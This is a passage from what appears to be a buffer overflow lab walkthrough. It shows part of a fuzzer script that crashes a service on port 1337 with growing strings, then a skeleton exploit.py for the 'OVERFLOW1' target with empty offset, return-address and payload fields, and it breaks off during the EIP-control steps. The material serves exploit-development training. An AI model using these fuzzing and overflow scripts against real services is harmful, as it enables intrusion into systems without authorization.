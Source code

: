 ```python
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

Run the fuzzer.py script using python: `python3 fuzzer.py`

The fuzzer will send increasingly long strings comprised of As. If the  fuzzer crashes the server with one of the strings, the fuzzer should  exit with an error message. Make a note of the largest number of bytes  that were sent.

# Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```python
import socket

ip = "10.10.249.234"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length  400 bytes longer that the string that crashed the server (change the -l  value to this):
